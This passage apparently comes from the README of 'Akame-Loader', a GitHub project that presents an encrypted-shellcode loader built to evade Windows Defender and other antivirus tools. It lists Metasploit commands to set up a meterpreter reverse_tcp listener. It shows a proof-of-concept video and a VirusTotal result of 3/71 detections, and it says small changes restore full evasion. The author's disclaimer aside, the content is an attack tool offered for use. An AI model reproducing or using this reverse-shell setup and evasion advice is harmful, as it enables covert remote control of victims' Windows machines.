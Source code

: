 **7. Listen for incomming connections<br>**
- Metasploit:<br>
`msfconsole -q`<br>
`use exploit/multi/handler`<br>
`set payload windows/x64/meterpreter/reverse_tcp`<br>
`show options` (optional)<br>
`set LHOST *IP*`<br>
`set LPORT *PORT*`<br>
`exploit`<br>
- Other:<br>
start listening for connections

## Video POC
Platform: Windows 10 x64 <br>
Antivirus: Windows Defender 24/10/2022 <br>
<video src='https://user-images.githubusercontent.com/78364462/197958813-9075bdca-2154-47e2-a7a9-52a7d62bbb4c.mp4'></video>
! 720p because I can't upload video files bigger than 10MB on github <br>
! Blackscreens in the video caused by UAC

## VirusTotal Scan (3/71 security vendors and no sandboxes on 24/10/2022)
I uploaded the loader to Virus Total because I don't want this to be used for malicious purposes!<br>
The shellcode used was generated with metasploit (payload: windows/x64/meterpreter/reverse_tcp) and encrypted by \resources\encrypt.exe.<br>
The loader was build with VS22 and signed with a sha1 certificate

<details open>
  <summary>File Scan</summary>
  <img src="https://raw.githubusercontent.com/N3agu/Akame-Loader/main/Images/virustotal1.png">
</details>
<details><summary>File Details</summary></details>
Link: https://www.virustotal.com/gui/file/68e6a25457093584a043ed3f721be9bc9b6456edd792cb4e30054e85bdc4119f
</br><b>! Attention, the reason the loader gets a lot of detections now is because Virus Total distributes samples, this is completely normal. With simple and small changes you can obtain a new undetectable payload.</b>
